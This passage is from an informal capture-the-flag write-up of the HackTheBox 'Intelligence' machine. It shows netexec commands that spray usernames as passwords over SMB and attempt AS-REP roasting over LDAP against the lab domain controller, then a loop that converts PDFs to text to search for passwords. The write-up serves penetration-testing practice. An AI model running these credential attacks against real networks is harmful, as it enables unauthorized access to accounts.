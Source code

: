 okey  lets check them if they are exist.

![alt text](../assets/images/intelligence5.png)

and yeah they are lets try if some user using his username as his password.

```bash
nxc smb DC.intelligence.htb -u users.txt -p users.txt --continue-on-success --no-bruteforc
```

but no success lets try `ASREProasting` 

```bash
➜  Intelligence nxc ldap DC.intelligence.htb -u users.txt -p '' --asreproast a.txt                      
LDAP        10.10.10.248    389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:intelligence.htb)
```

okey so we have to extract password somewher so lets check out pdf files again i will change then with txt file and read it more healthty

```bash
➜  pdfs for f in *.pdf; do echo -e "\n--- $f ---\n" >> all_pdfs_combined.txt pdftotext "$f" - >> all_pdfs_combined.txt done
```

![alt text](../assets/images/intelligence6.png)
